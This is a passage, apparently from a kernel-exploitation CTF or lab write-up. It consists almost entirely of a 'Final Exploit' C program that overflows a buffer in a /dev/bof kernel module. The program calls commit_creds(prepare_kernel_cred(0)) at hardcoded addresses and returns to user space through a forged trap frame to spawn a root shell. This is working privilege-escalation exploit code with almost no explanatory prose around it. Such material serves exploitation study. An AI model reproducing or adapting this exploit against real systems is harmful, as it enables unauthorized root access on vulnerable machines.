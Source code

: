 [![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-18-113125.png)

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;

struct trap_frame{
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));
struct trap_frame tf;
static char receive[256];
void get_shell(void){
    execl("/bin/sh", "sh", NULL);
}
void init_tf_work(void){
    asm("pushl %cs;popl tf+4;"    //set cs
        "pushfl;popl tf+8;"       //set eflags
        "pushl %esp;popl tf+12;"
        "pushl %ss;popl tf+16;");
    tf.eip = &amp;get_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) 0xC10711F0;
void* (*commit_creds)(void*) KERNCALL = (void*) 0xC1070E80;
void payload(void){
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
          "iret;");
}
int main(void){
    char Get_shell[5];
    init_tf_work();
    *((void**)(Get_shell)) = &amp;payload;
    char Payload[0x100] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAxFCx74x01xC1xD0x06x00x00x53x50x04xC1x00x00x00x00";
    for(int i = 0,j = 56;i &lt; 4;i++,j++){
        Payload[j] = Get_shell[i];
    }
    int fd = open("/dev/bof",2);
    write(fd,Payload,0x100);
    return 0;
}

//gcc -m32 -static -o Exploit Exploit.c
```
